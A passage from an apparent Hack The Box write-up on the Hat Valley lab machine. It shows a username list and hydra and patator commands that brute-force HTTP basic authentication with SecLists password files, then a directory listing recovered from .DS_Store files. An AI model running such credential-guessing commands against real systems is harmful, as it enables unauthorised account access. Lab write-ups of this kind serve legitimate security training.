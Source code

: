 ## Bruteforcing
Maybe we can try to bruteforce the basic auth since we know the names of some of the people involved in the company.        

That's a bit of a long shot but I want to experiment with bruteforcing tools

```
cat users.txt
admin
sales
guest
cwool
bhill
cjones
jlightheart
christine
bean
christopher
jackson
```

Passing the requests through burp, just to make sure this actually works like I think it does, I didn't get any luck with that though  
```bash
export HYDRA_PROXY_HTTP=http://localhost:8080
hydra -L users.txt -P /usr/share/seclists/Passwords/probable-v2-top1575.txt -f store.hat-valley.htb http-get / -V
```

Also trying patator
```bash
patator http_fuzz auth_type=basic url=store.hat-valley.htb user_pass=FILE0:FILE1 0=users.txt 1=/usr/share/seclists/Passwords/xato-net-10-million-passwords-1000.txt -x ignore:code=401
```

## DS Store files

Downloading the DS Store files, and running them through an online decoder to get the content of the directory, we can get a better idea of the directory contents, here is the content of the js/ folder 
```ba
bootstrap.bundle.js
bootstrap.bundle.js.map
bootstrap.bundle.min.js
bootstrap.bundle.min.js.map
bootstrap.js
bootstrap.js.map
bootstrap.min.js
bootstrap.min.js.map
custom.js
jquery-3.0.0.min.js
jquery.mCustomScrollbar.concat.min.js
jquery.min.js
jquery.validate.js
modernizer.js
plugin.js
popper.min.js
revolution
revolution
revolution
slider-setting.js
```

